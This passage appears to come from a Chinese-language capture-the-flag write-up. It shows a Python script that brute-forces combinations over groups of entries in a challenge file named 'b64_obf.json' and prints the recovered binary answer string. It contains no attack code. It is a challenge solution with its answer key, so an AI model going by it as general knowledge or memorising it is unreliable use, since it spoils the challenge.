filename = 'chals/b64_obf.json'
with open(filename) as f:
    content = json.load(f)
    n = len(content)
    for i in range(n // 16):
        group_res = []
        for num_1, num_2, num_3, num_4 in product([2,1], repeat=4):
            acc_move = ''
            index_lut = {0: num_1, 2: num_1, 8: num_1, 10: num_1,
                        1: num_2, 3: num_2, 9: num_2, 11: num_2,
                        4: num_3, 6: num_3, 12: num_3, 14: num_3,
                        5: num_4, 7: num_4, 13: num_4, 15: num_4}
            for cur_index in range(16):
                acc_move += content[16 * i + cur_index][index_lut[cur_index]]
            group_res.append(move(acc_move))
        # 找出 group_res 只出现一次的下标
        for j, s in enumerate(group_res):
            if group_res.count(s) != 1:
                continue
            for choice, index in zip([1 if num else 0 for num in [j & 8, j & 4, j & 2, j & 1]], [
                content[16 * i][0], content[16 * i + 1][0], content[16 * i + 4][0], content[16 * i + 5][0]
            ]):
                answers[index] = str(choice)

    print(''.join(answers))
```

得到输出：

```
1100111101111000111001000001111000011010100110101000011010011011
```
